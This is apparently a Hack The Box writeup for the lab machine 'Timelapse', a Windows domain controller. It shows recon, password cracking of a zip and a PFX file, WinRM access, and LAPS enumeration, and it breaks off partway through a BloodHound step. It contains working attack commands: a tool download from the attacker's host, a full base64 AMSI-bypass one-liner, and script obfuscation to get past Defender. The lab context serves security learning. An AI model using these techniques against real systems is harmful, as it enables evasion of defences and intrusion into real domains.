





# Timelapse - 10.10.11.152

## Recon

### Nmap 

All TCP Ports
```
# Nmap 7.92 scan initiated Tue Mar 29 20:32:00 2022 as: nmap -p- --min-rate=10000 -oA nmap/alltcp 10.129.157.84
Nmap scan report for 10.129.157.84
Host is up (0.043s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
5986/tcp  open  wsmans
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49696/tcp open  unknown
52141/tcp open  unknown
```

TCP Script Scan
- Open ports and services are consistent with a windows domain controller
- Discovered domain name **timelapse.htb** and computername **dc01.timelapse.htb**

```
└─$ cat nmap/tcpscripts.nmap
# Nmap 7.92 scan initiated Tue Mar 29 20:33:54 2022 as: nmap -p 53,88,135,139,389,445,464,593,636,5986,9389,49667,49673,49674,49696,52141 -sC -sV -oA nmap/tcpscripts 10.129.157.84
Nmap scan report for 10.129.157.84
Host is up (0.095s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-03-30 08:33:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2022-03-30T08:35:30+00:00; +7h59m58s from scanner time.
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
52141/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m57s, deviation: 0s, median: 7h59m57s
| smb2-time: 
|   date: 2022-03-30T08:34:53
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 29 20:35:32 2022 -- 1 IP address (1 host up) scanned in 97.82 seconds
```
All UDP Ports
- Port 53 is open on UDP. Worth attempting a zone transfer

```
# Nmap 7.92 scan initiated Tue Mar 29 20:35:52 2022 as: nmap -p- -sU --min-rate=10000 -oA nmap/alludp 10.129.157.84
Nmap scan report for 10.129.157.84
Host is up (0.076s latency).
Not shown: 65532 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
123/udp open  ntp
389/udp open  ldap
```
UDP Scripts
```
# Nmap 7.92 scan initiated Tue Mar 29 20:37:03 2022 as: nmap -p53,123,389 -sU -sC -sV -oA nmap/udpscripts 10.129.157.84
Nmap scan report for 10.129.157.84
Host is up (0.041s latency).

PORT    STATE SERVICE VERSION
53/udp  open  domain  (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   NBTStat: 
|_    CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
123/udp open  ntp     NTP v3
| ntp-info: 
|_  
389/udp open  ldap    Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-UDP:V=7.92%I=7%D=3/29%Time=6243A644%P=x86_64-pc-linux-gnu%r(NBTS
SF:tat,32,"\x80\xf0\x80\x82\0\x01\0\0\0\0\0\0\x20CKAAAAAAAAAAAAAAAAAAAAAAA
SF:AAAAAAA\0\0!\0\x01");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```
### Zone transfer

Querying domain information
```
└─$ dig @10.10.11.152 timelapse.htb      

; <<>> DiG 9.18.0-2-Debian <<>> @10.10.11.152 timelapse.htb
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 4162
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;timelapse.htb.                 IN      A

;; ANSWER SECTION:
timelapse.htb.          600     IN      A       10.10.11.152

;; Query time: 79 msec
;; SERVER: 10.10.11.152#53(10.10.11.152) (UDP)
;; WHEN: Fri Apr 01 23:45:16 EDT 2022
;; MSG SIZE  rcvd: 58
```

Upon attempting the zone transfer, we see 'transfer failed.'
```
└─$ dig axfr @10.10.11.152 timelapse.htb 

; <<>> DiG 9.18.0-2-Debian <<>> axfr @10.10.11.152 timelapse.htb
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

### Ldapsearch

Query base naming contexts
```
└─$ ldapsearch -h 10.10.11.152 -x -s base namingcontexts   
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=timelapse,DC=htb
namingcontexts: CN=Configuration,DC=timelapse,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=timelapse,DC=htb
namingcontexts: DC=DomainDnsZones,DC=timelapse,DC=htb
namingcontexts: DC=ForestDnsZones,DC=timelapse,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

Credentials are required to get any more information

```
└─$ ldapsearch -h 10.10.11.152 -x -b "DC=TIMELAPSE,DC=htb"
# extended LDIF
#
# LDAPv3
# base <DC=TIMELAPSE,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```

### RPCClient

Engage null session and query for Active Directory info
 - Not authorized for any useful queries

```
└─$ rpcclient -U '' 10.10.11.152                                                                                                                        1 ⨯
Enter WORKGROUP\'s password: 
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomgroups
result was NT_STATUS_ACCESS_DENIED
rpcclient $> querydispinfo
result was NT_STATUS_ACCESS_DENIED
```

### SMB Enumeration

Check what shares we have access to without authentication
 - We have read access without authentication for IPC$ and Shares

```
└─$ smbmap -H 10.10.11.152 -u null                        
[+] Guest session       IP: 10.10.11.152:445    Name: 10.10.11.152                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Shares                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
```

Enumerate IPC$
 - No files or directories available
```
└─$ smbclient -N //10.10.11.152/IPC$                                                                                                                  130 ⨯
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_INVALID_INFO_CLASS listing \*
```

Enumerate 'Shares'
 - We have access to two directories
 ```
 smbclient -N //10.10.11.152/Shares
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

                6367231 blocks of size 4096. 2049136 blocks available
```
Grab all available files
```
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> MGET *
getting file \Dev\winrm_backup.zip of size 2611 as Dev/winrm_backup.zip (9.5 KiloBytes/sec) (average 9.5 KiloBytes/sec)
getting file \HelpDesk\LAPS.x64.msi of size 1118208 as HelpDesk/LAPS.x64.msi (1095.3 KiloBytes/sec) (average 864.6 KiloBytes/sec)
getting file \HelpDesk\LAPS_Datasheet.docx of size 104422 as HelpDesk/LAPS_Datasheet.docx (218.4 KiloBytes/sec) (average 690.4 KiloBytes/sec)
getting file \HelpDesk\LAPS_OperationsGuide.docx of size 641378 as HelpDesk/LAPS_OperationsGuide.docx (1453.2 KiloBytes/sec) (average 842.4 KiloBytes/sec)
getting file \HelpDesk\LAPS_TechnicalSpecification.docx of size 72683 as HelpDesk/LAPS_TechnicalSpecification.docx (213.2 KiloBytes/sec) (average 758.4 KiloBytes/sec)
```

In directory 'HelpDesk', we have three LAPS documentation files. Having not been previously familiar with LAPS, this was great to scan through to get an idea of how 'Local Administrator Password Solution' works. From scanning the documentation, I discover the following:
- %ProgramFiles%\LAPS\CSE\AdmPwd.dll is a file that would be present on the machine, indicating that LAPS is installed
- The property **'ms-Mcs-AdmPwd'** contains the **cleartext administrator password**
- Fat client AdmPwd.UI.exe that provides the functionality of password retrieval for given computer and planned/immediate password reset for a computer
- Powershell module AdmPwd.PS that provides the same functionality as fat client plus the following:
    - Cmdlet for AD schema extension
    - Cmdlets for delegation of permissions for computer accounts themselves (to be able to write passwords to AD) and for IT staff (to read passwords and request password resets)
    - Cmdlet to find who has permission to read password on computers in given container
    - Cmdlet for setting up auditing of password reads from AD
- Password complexity details
    - At least 12 characters long
    - 1 capital
    - 1 small
    - 1 number
    - 1 special char
    - max password age 30 days
        - autochange afterward?..


Also in this directory is the installer for LAPS. There is nothing out of the ordinary with this installer. 

## Access as legacyy

In directory 'Dev' we have archive winrm_backup.zip
 - Upon unzipping, we are prompted for a password for legacyy_dev_auth.pfx
```
└─$ file winrm_backup.zip 
winrm_backup.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
                                                                                                                                                            
┌──(kali㉿kali)-[~/…/Timelapse-10.10.11.152/writeup/smb/Dev]
└─$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
```

### PFX Certificate

- Attempts to bruteforce this zip with hashcat mode 13600 all result in segmentation faults
- Tool zip2john produces a PKZIP hash

```
└─$ zip2john winrm_backup.zip                                                                                                                          80 ⨯
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
winrm_backup.zip/legacyy_dev_auth.pfx:$pkzip$1*1*2*0*965*9fb*12ec5683*0*4e*8...
```

Save off the hash and crack with john

https://security.stackexchange.com/questions/236472/use-john-the-ripper-to-break-password-protected-zip

- John finds cleartext password 'supremelegacy' for zip file

```
└─$ zip2john winrm_backup.zip > ziphash                          
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8

└─$ john --format=PKZIP ziphash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2022-04-02 00:07) 2.941g/s 10227Kp/s 10227Kc/s 10227KC/s surkerior..supalove
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Providing this password provides a successful extraction of the archive

```
└─$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx   
```

Being unfamiliar with the PFX file extension, Googling around for other HTB writeups mentioning PFX files, led to a writeup for box 'Fortune' where pfx certificate was loaded into Firefox, allowing access to an https site.

Upon importing the certificate, Firefox asks us for a password.

A post here explains how we can use john again to crack the key for the pfx certificate

https://stackoverflow.com/questions/53547386/how-to-run-john-ripper-attack-to-p12-password-educative-pruposes

```
pfx2john legacyy_dev_auth.pfx > pfxhash
```

Cracking the hash gives us password 'thuglegacy' for the private key of legacyy_dev_auth.pfx

```
└─$ john --format=PFX --wordlist=/usr/share/wordlists/rockyou.txt pfxhash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:01:07 DONE (2022-04-02 00:18) 0.01489g/s 48137p/s 48137c/s 48137C/s thugways..thugers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Loading this certificate into Firefox and attempting to access SSL sites leads us nowhere

Being that the name of the archive was winrm_backup.zip, I search to see if a pfx certificate can be used for winrm access.

http://vcloud-lab.com/entries/powershell/configure-powershell-winrm-to-use-openssl-generated-self-signed-certificate

This does appear to be a method for achieving winrm access over SSL, however:
- crackmapexec and metasploit modules for winrm access do not accept certs
- evil-winrm accepts a cert, but it requires both a public and private key, and will error without it

Not knowing much about PFX certificates, I search to see if I can extract a public and private key from PFX.

IBM Documentation shows I can perform this task with openssl

https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file

Extracting the private key:

```
openssl pkcs12 -in [yourfile.pfx] -nocerts -out [drlive.key]
```

and extracting the certificate (public key)

```
openssl pkcs12 -in [yourfile.pfx] -clcerts -nokeys -out [drlive.crt]
```
use import password 'thuglegacy'
```
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out public.crt
Enter Import Password:
```
use import password 'thuglegacy'

set your own PEM passphrase. It must be at least 4 characters long. I recommend making something short as you will be entering this a lot.
```
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```

### Win-RM Session

We can begin a Win-RM session in the following way to get a session as legacyy. Note that while the default port for win-RM is 5985, because we are using SSL session flags, evil-winrm detects that we should use win-rm ssl port 5986 without having to specify it.

```
└─$ evil-winrm -u legacyy -p thuglegacy -S -c public.crt -k private.key -i 10.10.11.152

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents> ls
```

We can navigate to the Desktop and grab the user flag.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\legacyy\Desktop> ls


    Directory: C:\Users\legacyy\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         4/2/2022  12:31 AM             34 user.txt
```

Printing the user directories shows additonal users Administrator, svc_deploy, and TRX

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd C:\users
*Evil-WinRM* PS C:\users> ls


    Directory: C:\users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/23/2021  11:27 AM                Administrator
d-----       10/25/2021   8:22 AM                legacyy
d-r---       10/23/2021  11:27 AM                Public
d-----       10/25/2021  12:23 PM                svc_deploy
d-----        2/23/2022   5:45 PM                TRX
```

We can navigate into user directory TRX, but we do not have permissions to list any files in this directory.

The same is true for user directory svc_deploy

```
*Evil-WinRM* PS C:\users> cd TRX
*Evil-WinRM* PS C:\users\TRX> ls
Access to the path 'C:\users\TRX' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\users\TRX:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

Upon searching the disk for useful files, I've found nothing of interest. I'll try winPEAS.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> iwr -uri http://10.10.16.8/winPEASany.exe -outfile wp.exe
```

Running wp.exe indicates that we will run into Windows Defender on this box.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> .\wp.exe
Enter PEM pass phrase:
Program 'wp.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\wp.exe
+ ~~~~~~~~.
At line:1 char:1
+ .\wp.exe
+ ~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

winPEAS releases has file winPEASany_ofs.exe which would indicate an obsfucated version of the winpeas executable. Upon trying this, it is also flagged by Windows Defender. Upon trying winPEASx64_ofs.exe, we have success, however nothing of great value is recovered from this scan.

## Access as svc_deploy

### LAPS Enumeration

At this point, I would like to discover if I have the ability to dump the administrator password from LAPS. 

From this webpage, I discover commands for going after the mc-mcs-admpwd attribute.

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps

We can confirm with the following command that LAPS is installed on the machine. The command successfully returns Admpwd.dll.

```
Get-ChildItem 'C:\Program Files\LAPS\CSE\Admpwd.dll'
```

Unfortunately, the following returns no results, which would lead me to believe that I do not have permissions to dump the admin password from LAPS.

```
Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | Select-Object 'Name','ms-Mcs-AdmPwd'
```

The web page mentions LAPSToolkit.

https://github.com/leoloobeek/LAPSToolkit

This script allows me to view the admin password if I have access, else discover what Active Directory groups have access to view the admin password.

Upon moving LAPSToolkit.ps1 to the target machine and importing module, we run into ASMI

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> . .\ltk.ps1
At C:\Users\legacyy\Documents\ltk.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At C:\Users\legacyy\Documents\ltk.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Evil-WinRM has a function built into it for AMSI Bypass. Lets try this. First, enter 'menu'


The evil-winrm menu is showing up quite poorly on this specific box, but we can at least see the Bypass-4MSI command available.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> menu
Enter PEM pass phrase:
The term 'Menu' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ Menu
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (Menu:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit
```

Unfortunately, the evil-winrm function for bypassing AMSI does not appear to function well on this box. Either the session is dropped immediately, or a success message is shown followed immediately by a dropped connection.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> Bypass-4MSI
Error: An error of type WinRM::WinRMWSManFault happened, message is [WSMAN ERROR CODE: 1726]: <f:WSManFault Code='1726' Machine='10.10.11.152' xmlns:f='http://schemas.microsoft.com/wbem/wsman/1/wsmanfault'><f:Message>The WSMan provider host process did not return a proper response.  A provider in the host process may have behaved improperly. </f:Message></f:WSManFault>                                                                                                 

Error: Exiting with code 1
```

We have two options going forward. We can either obsfucate LAPSToolkit.ps1 or try another method to bypass ASMI. I will show both routes.

Tool PyFuscation seemed to work incredibly well for this use case. 

https://github.com/CBHue/PyFuscation

The following command obsfucated functions, variables, and parameters in LAPSToolkit.ps1 and produced a directory with the following files: 

- 04022022_01_07_29.functions
- 04022022_01_07_29.parameters  
- 04022022_01_07_29.ps1
- 04022022_01_07_29.variables


```
python3 PyFuscation.py -fvp --ps LAPSToolkit.ps1
```

04022022_01_07_29.ps1 is the obsfucated version of LAPSToolkit.ps1

04022022_01_07_29.functions shows the original function names alongside the renamed function names, letting us know how we can call the functions after importing the obsfucated script.

```
Replacing: Get-LAPSComputers with: implemented
Replacing: Find-LAPSDelegatedGroups with: salutation
Replacing: Find-AdmPwdExtendedRights with: rheas
```

Alternatively, we can try another method of bypassing AMSI. The following site provides a base64 encoded payload which will successfully bypass AMSI.

https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/

```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

After completing either obsfucation or AMSI bypass, we can import and utilize LAPSToolkit.


Here we import the module and call 'Get-LAPSComputers'
```
*Evil-WinRM* PS C:\Users\legacyy\Documents> . .\ltk.ps1
*Evil-WinRM* PS C:\Users\legacyy\Documents> implemented
Enter PEM pass phrase:

ComputerName       Password Expiration
------------       -------- ----------
dc01.timelapse.htb          04/07/2022 00:31:06
```

Next, calling 'Find-LAPSDelegatedGroups'

We notice only one AD group can dump the admin password via LAPS, 'LAPS_Readers'. 

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> salutation
Enter PEM pass phrase:

OrgUnit                                    Delegated Groups
-------                                    ----------------
OU=Domain Controllers,DC=timelapse,DC=htb  TIMELAPSE\LAPS_Readers
OU=Servers,DC=timelapse,DC=htb             TIMELAPSE\LAPS_Readers
OU=Database,OU=Servers,DC=timelapse,DC=htb TIMELAPSE\LAPS_Readers
OU=Web,OU=Servers,DC=timelapse,DC=htb      TIMELAPSE\LAPS_Readers
OU=Dev,OU=Servers,DC=timelapse,DC=htb      TIMELAPSE\LAPS_Readers
OU=Dev,OU=Servers,DC=timelapse,DC=htb      TIMELAPSE\LAPS_Readers
```

Lastly, calling 'Find-AdmPwdExtendedRights'

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> rheas
Enter PEM pass phrase:

ComputerName       Identity               Reason
------------       --------               ------
dc01.timelapse.htb TIMELAPSE\LAPS_Readers Delegated
```

Lets identify the members of group TIMELAPSE\LAPS_Readers.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> Get-ADGroupMember -Identity LAPS_Readers | Select-Object name, objectClass,distinguishedName
Enter PEM pass phrase:

name       objectClass distinguishedName
----       ----------- -----------------
svc_deploy user        CN=svc_deploy,CN=Users,DC=timelapse,DC=htb
```

### Bloodhound

Using Bloodhound, I find nothing that indicates the existence of an Active Directory traversal method that would allow us access to user svc_deploy, however - the following is what I tried:

The new SharpHound.exe does not appear to be working on any box I've tried it on. Additionally, SharpHound.ps1 was removed from the github repo. Following the steps here (grabbing SharpHound.ps1 from a previous commit and downloading Bloodhound version 4.0.3) is the easiest way to repair a bloodhound install.

https://0xdf.gitlab.io/2022/02/28/htb-object.html#bloodhound

Stepping into Bloodhound, we can first search for our owned user 'legacyy' and mark the user as owned. 



